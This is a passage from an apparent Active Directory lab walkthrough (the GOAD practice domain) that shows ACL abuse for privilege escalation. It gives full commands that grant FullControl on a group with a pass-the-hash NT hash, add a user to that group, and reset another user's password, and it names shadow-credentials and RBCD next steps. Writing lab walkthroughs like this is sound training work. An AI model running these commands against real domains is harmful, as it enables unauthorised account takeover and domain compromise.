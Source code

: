 
- And the owner of kingsguard group is now tyron.lannister
- As owner of the group we can now change the acl and give us GenericAll on the group
```
impacket-dacledit -action 'write' -rights 'FullControl' -principal tyron.lannister  -target 'kingsguard' 'sevenkingdoms.local'/'tyron.lannister' -hashes ':b3b3717f7d51b37fb325f7e7d048e998'
```
![screenshot](pics/change_dacl.png)


- With GenericAll now we can add tyron to the kingsguard group
```
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=kingsguard,OU=Crownlands,DC=sevenkingdoms,DC=local"
```
![screenshot](pics/abuse_gernericall.png)
## Generic all on user (kingsguard -> stannis)

- Now tyron is in kingsguard so we can take the control of stannis with the genericAll on stannis

- let’s change stannis password with ldeep
```
net rpc password stannis.baratheon 'Drag0nst0ne' --pw-nt-hash -U sevenkingdoms.local/tyron.lannister%b3b3717f7d51b37fb325f7e7d048e998 -S kingslanding.sevenkingdoms.local
```
![screenshot](pics/change_pw_stanislas.png)


- We will set the password `Drag0nst0ne` (i know it is the same as before but i didn’t want to change the screenshots in the next part :p )

## GenericAll on Computer (Stannis -> kingslanding)

- Now we own stannis, let’s finish the domain with the generic Write on the DC

- We already done that on the previous chapter. One way to abuse of this permission is by using Resource Based Constrained Delegation ([Goad pwning part10](https://mayfly277.github.io/posts/GOADv2-pwning-part10/))
    
- But what if you can’t add a computer in the domain (more and more customers disable the ability for a simple user to add computer to the domains and this is a good practice from a security point of view), you can do a shadow credentials attack on the computer.
    
- So if ADCS is enabled on the domain, and we got write privilege on msDS-KeyCredentialLink, we can do the shadow credentials attack to get a direct access on the target account. (just like what we did in [Goad pwning part5](https://mayfly277.github.io/posts/GOADv2-pwning-part5/))
    